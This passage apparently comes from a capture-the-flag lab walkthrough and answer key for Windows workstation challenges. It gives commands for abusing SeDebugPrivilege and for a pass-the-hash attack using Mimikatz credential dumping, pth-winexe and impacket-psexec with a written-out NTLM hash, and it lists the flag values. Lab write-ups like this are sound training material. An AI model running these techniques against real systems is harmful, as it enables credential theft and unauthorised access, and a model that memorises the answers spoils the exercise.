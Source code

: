 ### Attack Method: Exploiting Debug Privileges

```bash
# Login as debuguser
xfreerdp /u:debuguser /p:Debugger123! /v:$TARGET_WS
```

```powershell
# Check privileges
whoami /priv
# SeDebugPrivilege should be enabled

# Access protected registry
reg query "HKLM\SOFTWARE\DebugPrivileges" /v WorkstationFlag

# Use debug privilege to access SYSTEM process memory
# This allows reading the flag from protected areas
```

**Screenshot Simulation:**
```
C:\> whoami /priv
SeDebugPrivilege          Debug programs          Enabled

C:\> reg query "HKLM\SOFTWARE\DebugPrivileges" /v WorkstationFlag
    WorkstationFlag    REG_SZ    FLAG{VENUSAUR49841932}
```

**Why:** Debug privileges on workstations can be abused to access protected processes and elevate privileges.

---

## FLAG 5: Pass-the-Hash WS (50 points - Hard)
**Location:** Pass-the-Hash WS  
**Flag:** FLAG{BUTTERFREE00071950}

### Attack Method: PTH from Workstation

```bash
# First extract hashes using Mimikatz
mimikatz # sekurlsa::logonpasswords
# Note the NTLM hash for localadmin

# From Kali, perform PTH
pth-winexe -U localadmin%aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef //$TARGET_WS cmd.exe

# Or using Impacket
impacket-psexec -hashes :5835048ce94ad0564e29a924a03510ef localadmin@$TARGET_WS

# Access Administrator desktop
dir C:\Users\Administrator\Desktop\
type C:\Users\Administrator\Desktop\pth_workstation_flag.txt
```
